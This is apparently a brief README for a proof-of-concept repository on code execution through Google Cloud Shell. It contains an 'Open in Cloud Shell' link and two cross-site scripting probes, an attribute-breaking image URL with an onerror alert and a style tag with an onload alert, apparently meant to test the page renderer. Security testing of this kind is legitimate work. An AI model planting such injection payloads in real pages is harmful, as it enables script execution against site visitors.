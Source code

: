 # Cloudshell code execution poc

[![Open in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.png)](https://console.cloud.google.com/cloudshell/open?git_repo=https://github.com/manunio/java-poc&open_in_editor=test.py)

![Uh oh...](https://gstatic.com/cloudssh/images/open-btn.png"onerror="alert('XSS'))

<style onload="alert(0)">
